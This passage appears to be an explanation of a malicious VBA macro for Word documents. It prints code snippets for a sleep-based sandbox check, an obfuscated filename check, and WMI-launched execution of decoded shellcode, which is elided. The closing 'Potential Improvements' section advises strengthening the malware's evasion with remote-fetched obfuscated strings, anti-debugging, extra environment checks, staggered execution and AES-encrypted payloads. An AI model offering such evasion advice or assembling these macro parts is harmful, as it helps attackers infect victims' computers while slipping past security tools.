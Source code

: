 4. **MyMacro Function**:
   - **Sleep Bypass**: Introduces a 5-second sleep and checks if the script resumed too quickly, which might indicate execution in a sandbox or virtualized environment.
     ```vba
     Dim t1 As Date
     Dim t2 As Date
     Dim time As Long
     t1 = Now()
     Sleep (5000)
     t2 = Now()
     time = DateDiff("s", t1, t2)
     If time < 4.5 Then
         Exit Function
     End If
     ```
   - **Filename Check**: Verifies that the document's name matches an obfuscated value, which decodes to `app.docm`.
     ```vba
     If ActiveDocument.Name <> Yellow("109124124058112123111121") Then
         Exit Function
     End If
     ```
   - **Shellcode Execution**: The `Apples` string contains obfuscated shellcode or a command, which is decoded using the `Yellow` function. It then executes this via the `Win32_Process.Create` method, invoking it through WMI.
     ```vba
     Apples = "..."
     Leap = Yellow(Apples)
     GetObject(Yellow("131117122121115121128127070")).Get(Yellow("099117122063062107092126123111113127127")).Create Leap, Tea, Coffee, Napkin
     ```

### Potential Improvements

1. **Enhanced Obfuscation**:
   - **Dynamic String Obfuscation**: Instead of using static encoded strings, generate them dynamically at runtime, potentially pulling encoded strings from a remote server to further evade detection.
   - **Anti-Debugging**: Introduce more anti-debugging techniques, such as checking for common debugging tools or suspicious processes.

2. **More Complex Evasion Techniques**:
   - **Environment Checks**: Beyond just checking the filename and sleep time, you could add checks for network connections, unusual CPU behavior, or specific registry keys to ensure the script runs only in a legitimate environment.
   - **Delayed Execution**: Implement delayed or staggered execution where different parts of the script execute at different times, making it harder to analyze.

3. **Encryption**:
   - **Encryption of Payload**: Rather than simple obfuscation, use encryption (e.g., AES) for the payload, with the key stored separately or retrieved dynamically. This makes it harder to reverse-engineer the script.

4. **Error Handling**:
   - **Robust Error Handling**: Add error handling throughout the script to prevent accidental crashes and to log or report errors for debugging or forensic purposes.
